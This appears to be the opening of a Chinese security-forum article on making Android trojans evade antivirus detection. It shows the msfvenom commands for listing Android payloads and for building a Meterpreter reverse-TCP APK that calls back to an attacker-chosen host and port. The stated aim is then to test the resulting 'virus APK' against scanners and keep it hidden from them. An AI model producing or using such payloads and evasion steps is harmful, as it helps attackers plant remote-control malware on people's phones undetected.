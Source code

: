 

# Android 免杀小结 - 先知社区

Android 免杀小结



> 免杀练习两年半

VT 检测 [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload)

## msfvenom 自动生成

查看一下 msfvenom 里面的 android 木马

```bash
msfvenom -l payloads | grep android
```

[![](assets/1701606948-12cf62e93aab9a54b41ed0c774260914.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009101930-472617e4-664a-1.png)

  
使用 android/meterpreter/reverse\_tcp

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=10008 R > black.apk
```

[![](assets/1701606948-7ec0e4b20146ffc0ccd882e603adac00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102010-5f37bcc0-664a-1.png)  
  
直接使用 msfvenom 生成的病毒 APK，丢到 VirScan 里面  
  